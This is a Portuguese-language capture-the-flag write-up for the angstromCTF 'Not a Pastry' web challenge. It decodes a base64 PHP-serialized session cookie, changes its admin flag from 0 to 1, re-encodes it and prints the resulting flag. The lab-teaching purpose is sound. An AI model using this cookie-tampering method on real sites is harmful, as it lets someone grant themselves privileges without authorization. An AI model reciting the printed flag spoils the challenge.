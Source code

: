 Not a Pastry(web,40)
HINT: ferramentas de desenvolvimento deve ajudar.

Nós descobrimos um site misterioso[http://web.angstromctf.com:1339/]. você pode recuperar a bandeira?
Quando você acessar a página do link, será mostrado: You're not admin! Sorry :(

[RESOLVING]
Significa que você tem que estar ali como admin, bom não tem formulário nem nada para autenticação
É claro que temos que escalar privilégios  via cookie então ou trocar o user-agent, mas nesse exemplo temos apenas que editar o cookie..
podemos verificar e usar o LiveHTTP headers para isso também :)

Vamos usar o Cookies Manager+ para isso e ver o cookie:

Cookie: not_a_pastry=Tzo3OiJTZXNzaW9uIjoyOntzOjEwOiJzdGFydF90aW1lIjtpOjE0NjM3NjQwMDU7czo1OiJhZG1pbiI7YjowO30%3D

Vamos logo que temos uma possivel base64, então vamos reverter ela(troque p %3D por = ):
Terminal-> echo "Tzo3OiJTZXNzaW9uIjoyOntzOjEwOiJzdGFydF90aW1lIjtpOjE0NjM3NjQwMDU7czo1OiJhZG1pbiI7YjowO30=\n" | base64 -d
Teremos então : O:7:"Session":2:{s:10:"start_time";i:1463764005;s:5:"admin";b:0;}

Bom você poderia tentar varias alterações porém ja está setado o user admin no cookie, então porque o site diz que não sou!? WTF ??
Haha simples ... quem conhece sistemas administrativos, paineis de admin de sites etc sabe que ha um nivel de acesso de usuários os
quais são denominados por numeros ex:[0: inativo, 1:ativo, 2:bloqueado ou então 0:desativado, 1:admin, 2:operador, 3:editor...] bom
logo vemos que somos o "0" nesta sessão ("admin";b:0;) o que significa que devemos alterar isso trocando o 0 por 1 ;)

Teremos: O:7:"Session":2:{s:10:"start_time";i:1463764005;s:5:"admin";b:1;} e passamos isso para base64 novamente
Terminal-> echo "O:7:"Session":2:{s:10:"start_time";i:1463764005;s:5:"admin";b:1;}" | base64
Base64-> Tzo3OiJTZXNzaW9uIjoyOntzOjEwOiJzdGFydF90aW1lIjtpOjE0NjM3NjQwMDU7czo1OiJhZG1pbiI7YjoxO30=

Basta trocar o cookie no liveHTTP e dar Reply ou no cookie manager, salvar e dar F5 e teremos a flag.

Congratulations!
Your flag is: good_ole_fashioned_homemade_cookies